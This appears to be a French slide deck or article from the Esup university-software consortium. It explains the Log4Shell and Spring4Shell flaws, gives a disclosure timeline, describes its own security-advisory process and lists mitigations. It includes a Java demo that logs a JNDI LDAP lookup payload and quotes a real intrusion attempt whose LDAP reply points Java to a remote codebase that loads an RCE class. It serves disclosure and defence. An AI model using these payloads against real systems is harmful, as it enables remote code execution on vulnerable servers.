


Failles log4shell et spring4shell : explications et préventions
Log4shell
Faille historique : « la vulnérabilité la plus importante et la plus critique de la dernière décennie »
Score CVSS : 10/10
Histoire
- 24 novembre : Chen Zhaojun communique la faille à l'équipe log4j
- 8 décembre : Chen Zhaojun prévient l'équipe log4j que la vulnérabilité a fuité
- 9 décembre : publication un peu précipitée de la faille, car la page va encore beaucoup bouger
- jusqu'au vendredi 10 décembre au soir, l'annonce affirme que les nouvelles versions de JDK protègent du RCE (cf ancienne page)
- jusqu'au samedi 11 décembre, la vulnérabilité de log4j 1.x n'était pas clair (ref)
Du côté de la coordination technique Esup, nous avons pu
- reproduire la faille (grâce aux POC in the wild),
- recenser les applications impactées,
- puis faire un avis de sécurité.
La faille : de l'importance de l'escaping
Vous connaissez l'injection SQL ? l'injection HTML ?
Avec Log4j2, c'est l'injection via les lookups. Exemple :
log.error("{}", "${env:PATH}");
est interprété en Log4j < 2.15.0 !
=> toute url loggant un param issu de GET/POST/headers est impactée.
Combiné avec le lookup Jndi, on obtient :

NB : il manque la solution "firewall" : empêcher les requêtes TCP sortantes
Démo
import org.apache.logging.log4j.LogManager;
import org.apache.logging.log4j.Logger;
public class log4j {
private static final Logger logger = LogManager.getLogger(log4j.class);
public static void main(String[] args) {
logger.error("{}", "${jndi:ldap://127.0.0.1:1389/Exploit}");
}
}
% strace -econnect -f mvn compile exec:java -Dexec.mainClass=log4j
[pid 73253] connect(108, {sa_family=AF_INET6, sin6_port=htons(1389), sin6_flowinfo=htonl(0), inet_pton(AF_INET6, "::ffff:127.0.0.1", &sin6_addr), sin6_scope_id=0}, 28) = -1 ECONNREFUSED (Connexion refusée)
22:25:55.899 [log4j.main()] ERROR log4j - ${jndi:ldap://127.0.0.1:1389/Exploit}
Une url LDAP d'une tentative d'intrusion à Rouen :
% ldapsearch -x -H ldap://x41.me:1389//univ-rouen.fr/X-Forwarded-For
#
dn:
javaClassName: foo
javaCodeBase: http://6jqbezekifm5y87oc8kp56l3yu4rsg.burpcollaborator.net/
objectClass: javaNamingReference
javaFactory: Log4jRCE
Des outils existent pour démarrer un serveur LDAP qui renvoie ce qu'il faut au format attendu par Java : exemple...
A propos des libs de logs en Java
En java, 3 librairies (implémentations) de logs sont principalement utilisées : log4j, log4j2 et logback.
- log4j est la librairie historique : elle est encore très utilisée. log4j est un projet distinct de log4j2
- log4j tend à être remplacée par log4j2 ou slf4j+logback
  (source)
 (source)
Fonctionnement des annonces de sécurité Esup
exemple avec Spring4shell :
- 31 mars 2022 :
- réception de la faille
- reproduction de l'exploit via des POC
- reproduction de l'exploit sur esup-dematec
- 1 avril 2022
- envoi d'un mail à esupdematec-devel@esup-portail.org
- rédaction de l'avis de sécurité
- envoi de l'avis à securite@esup-portail.org
- envoi de l'avis à esup-utilisateurs@esup-portail.org
Prévention
- gardez vos applications à jour (ou pas /o\)
- évitez que l'utilisateur exécutant Java ait les droits de modifier jsp/properties/class/...
- empêchez les requêtes sortantes du serveur (faire un "REJECT" et pas un "DROP" sinon le RCE devient un DoS)
Liens
Réseau Hackesr